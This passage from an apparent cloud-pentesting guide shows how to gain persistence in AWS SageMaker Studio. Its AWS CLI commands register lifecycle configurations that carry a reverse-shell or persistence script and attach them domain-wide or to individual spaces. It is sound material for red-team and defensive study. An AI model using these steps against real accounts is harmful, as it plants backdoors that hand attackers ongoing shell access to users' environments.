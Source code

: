 Lifecycle Configurations can be attached at various levels and to different app types within SageMaker Studio.

### Studio Domain Level (All Users)
```bash
# Create Studio Lifecycle Configuration*

aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-studio-lcc \
--studio-lifecycle-config-app-type JupyterServer \
--studio-lifecycle-config-content $(base64 -w0 reverse_shell.sh)


# Apply LCC to entire Studio Domain*

aws sagemaker update-domain --domain-id <DOMAIN_ID> --default-user-settings '{
    "JupyterServerAppSettings": {
        "DefaultResourceSpec": {"LifecycleConfigArn": "<LCC_ARN>"}
    }
}'
```
### Studio Space Level (Individual or Shared Spaces)
```bash
# Update SageMaker Studio Space to attach LCC*

aws sagemaker update-space --domain-id <DOMAIN_ID> --space-name <SPACE_NAME> --space-settings '{
    "JupyterServerAppSettings": {
        "DefaultResourceSpec": {"LifecycleConfigArn": "<LCC_ARN>"}
    }
}'
```
## Types of Studio Application Lifecycle Configurations

Lifecycle configurations can be specifically applied to different SageMaker Studio application types:
* JupyterServer: Runs scripts during Jupyter server startup, ideal for persistence mechanisms like reverse shells and cron jobs.
* KernelGateway: Executes during kernel gateway app launch, useful for initial setup or persistent access.
* CodeEditor: Applies to the Code Editor (Code-OSS), enabling scripts that execute upon the start of code editing sessions.

### Example Command for Each Type:

### JupyterServer
```bash
aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-jupyter-lcc \
--studio-lifecycle-config-app-type JupyterServer \
--studio-lifecycle-config-content $(base64 -w0 reverse_shell.sh)
```
### KernelGateway
```bash
aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-kernelgateway-lcc \
--studio-lifecycle-config-app-type KernelGateway \
--studio-lifecycle-config-content $(base64 -w0 kernel_persist.sh)
```
### CodeEditor
```bash
aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-codeeditor-lcc \
```